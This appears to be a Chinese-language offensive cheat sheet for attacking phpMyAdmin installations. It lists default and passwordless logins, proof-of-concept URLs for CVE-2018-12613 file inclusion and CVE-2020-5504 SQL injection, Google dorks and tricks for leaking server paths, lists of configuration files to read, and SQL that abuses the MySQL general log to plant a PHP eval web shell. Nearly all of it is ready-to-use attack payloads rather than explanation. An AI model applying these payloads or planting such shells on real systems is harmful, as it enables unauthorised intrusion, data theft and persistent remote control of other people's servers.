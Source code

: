 ## 应用简介
phpMyAdmin是MySQL管理工具

## 默认密码

```http
默认 phpMyAdmin：用户名 root、密码 root 或空登陆
版本 2.11.3～2.11.4：用户名 'localhost'@'@" 登陆，无需密码
版本 2.11.9.2：用户名 root 登陆，无需密码
```

## [CVE-2018-12613]-远程文件包含

**漏洞概述**

```http
#影响范围
4.8.0
4.8.1
```

**漏洞利用**

POC

```http
http://127.0.0.1/phpMyAdmin-4.8.0/index.php?target=db_sql.php%253f/../../../../../../../../../../../../../../../../../../../../../../../phpStudy/PHPTutorial/WWW/phpinfo.php
```

遇到该漏洞,可以考虑自己写一个shell,然后去包含自己的sessionid来实现getshell

## [CVE-2020-5504]-后台SQL注入

**漏洞概述**

```http
#影响范围
<= 5.00
```

**漏洞利用**

POC

```http
http://127.0.0.1/server_privileges.php?ajax_request=true&validate_username=1&username=1%27and%20extractvalue(1,concat(0x7e,(select%20user()),0x7e))--+db=&token=c2064a8c5f437da931fa01de5aec6581&viewing_mode=server
```

## php爆绝对路径

单引号爆路径

```http
xx.php?id=1'
```

错误参数值爆路径

```http
xxx.php?id=-1
```

Google爆路径

```http
Site:xxx.edu "warning"
Site:xxx.com "fatal error"
```

测试文件爆路径

```http
test.php
ceshi.php
info.php
phpinfo.php
php_info.php
1.php
```

phpmyadmin爆路径

```http
/phpMyAdmin/index.php?lang[]=1
/phpmyadmin/themes/darkblue_orange/layout.inc.php

/phpmyadmin/libraries/lect_lang.lib.php
/phpmyadmin/libraries/select_lang.lib.php
/phpmyadmin/libraries/lect_lang.lib.php
/phpmyadmin/libraries/mcrypt.lib.php
```

配置文件找路径

```bash
Windows:
c:\windows\php.ini php配置文件
c:\windows\system32\inetsrv\MetaBase.xml IIS虚拟主机配置文件


Linux:
/etc/php.ini php配置文件
/etc/httpd/conf.d/php.conf
/etc/httpd/conf/httpd.conf Apache配置文件
/usr/local/apache/conf/httpd.conf
/usr/local/apache2/conf/httpd.conf
/usr/local/apache/conf/extra/httpd-vhosts.conf 虚拟目录配置文件
```

nginx文件类型错误解析爆路径

```http
www.xxx.com/xx.jpg/x.php
```

## phpMyAdmin利用日志写shell

```sql
set global general_log='on'      
--开启日志

set global  general_log_file ="C:/phpStudy/PHPTutorial/WWW/shell.php"
--日志写入的文件

select "<?php eval($_POST['x'])?>"
--执行带有一句话的sql语句
```

其它写shell方法也和mysql写shell一样